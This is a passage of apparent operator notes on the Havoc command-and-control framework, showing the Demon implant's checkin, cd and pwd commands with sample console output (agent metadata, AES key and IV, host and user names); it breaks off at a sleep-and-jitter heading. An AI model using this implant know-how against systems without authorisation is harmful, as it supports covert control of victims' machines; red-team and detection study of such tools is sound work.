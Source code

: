# 02 - Basic Commands

Search Tag(s): #havoc #command-and-control #interactive-shell

## 2.1 - Check Request

- Help Menu

```
Demon » help checkin

 - Command       :  checkin
 - Description   :  request a checkin request
```

- Usage

```
Demon » checkin
[*] [47DC3265] Tasked demon send back a checkin request
[+] Send Task to Agent [8 bytes]
[*] Received checkin request

Teamserver:
  - Session Path       : /home/user/Havoc/Teamserver/data/loot/agents/7486e39a

Meta Data:
  - Agent ID           : 7486e39a
  - Magic Value        : 0
  - First Call In      : 02/10/2022 15:58:30
  - Last  Call In      : 02-10-2022 15:58:55
  - AES Key            : 088a0070eca06ee6fc5caaf468f0aa04f2f264c6be9cf8cc2a92b60ca4b45ea4
  - AES IV             : a4ecf6e8c8be96ac8ebe30c84ca6f2ba
  - Sleep Delay        : 5

Host Info:
  - Host Name          : DESKTOP-85J2L4M
  - User Name          : aiden
```

## 2.2 - Navigation

```
Demon » cd <directory_name>

Demon » pwd
[+] Send Task to Agent [12 bytes]
[*] Current directory: C:\Users\aiden
```

## 2.3 - Sleep and Jitter
